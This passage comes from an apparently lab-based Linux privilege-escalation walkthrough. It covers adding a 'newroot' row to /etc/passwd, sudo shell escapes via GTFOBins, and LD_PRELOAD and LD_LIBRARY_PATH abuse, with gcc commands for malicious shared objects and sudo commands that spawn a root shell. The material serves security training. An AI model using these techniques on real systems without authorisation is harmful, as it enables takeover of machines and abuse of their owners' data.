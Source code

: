 Switch to the root user, using the new password.

Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the 
generated password hash between the first and second colon (replacing the "x").

Now switch to the newroot user, using the new password.

# Sudo - Shell Escape Sequences
List the programs which sudo allows your user to run:
```sh
sudo -l
```

Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to 
elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

For an extra challenge, try to gain a root shell using all the programs on the list!

Q: Consider how you might use apache2 with sudo to gain root privileges without a shell escape sequence.
A: Look below section for answer.

# Sudo - Environment Variables
Sudo can be configured to inherit certain environment variables from the user's environment. Check which environment variables are inherited (look for the 
env_keep options):
```sh
sudo -l
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. 
LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at ```/home/user/tools/sudo/preload.c```:
```sh
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the 
new shared object:
```sh
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:
```sh
ldd /usr/sbin/apache2
```
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
```sh
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
```sh
sudo LD_LIBRARY_PATH=/tmp apache2
```
A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo